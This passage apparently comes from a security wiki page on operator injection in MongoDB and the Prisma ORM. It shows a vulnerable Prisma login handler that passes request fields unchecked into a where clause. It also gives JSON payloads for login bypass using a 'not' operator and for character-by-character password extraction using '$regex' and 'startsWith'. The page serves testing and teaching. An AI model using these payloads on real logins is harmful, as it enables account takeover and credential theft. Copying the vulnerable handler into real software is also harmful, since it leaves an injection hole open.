 {% code title="Regex Extraction" %}
```json
{
  "username": "admin",
  "password": {
    "$regex": "^a"
  }
}
```
{% endcode %}

### Prisma

See [Filter Conditions and Operators](https://www.prisma.io/docs/reference/api-reference/prisma-client-reference#filter-conditions-and-operators) for a full list. Similar to MongoDB, the common [Prisma](https://www.prisma.io/) ORM allows using operators anywhere in your query object. This can happen when you inject directly into the `where:` clause, which is very common:

<pre class="language-javascript" data-title="Vulnerable example"><code class="lang-javascript">app.post("/login", async (req, res) => {
  const { email, password } = req.body;

  const user = await prisma.user.findFirst({
<strong>    where: { email, password },
</strong>  });
</code></pre>

{% hint style="info" %}
**Note**: not all functions are vulnerable to this, because they don't all support operators. `findUnique()`, for example, is safe. Check out this article for more details on mitigations:

{% embed url="https://www.aikido.dev/blog/prisma-and-postgresql-vulnerable-to-nosql-injection#exploiting-operator-injection-in-prisma" %}
Explanation of the technique specific to Prisma and mitigations
{% endembed %}
{% endhint %}

As types in JavaScript are only a suggestion, developers need to explicitly validate their types to ensure attackers can't send objects though. If they can, it's possible to negate conditions just like MongoDB:

{% code title="Login Bypass" %}
```json
{
  "username": "admin",
  "password": {
    "not": "wrong"
  }
}
```
{% endcode %}

It's also possible to leak other potentially matching strings by iterating through prefixes:

{% code title="Char-by-char Extraction" %}
```json
{
  "username": "admin",
  "password": {
    "startsWith": "a"
  }
}
```
{% endcode %}
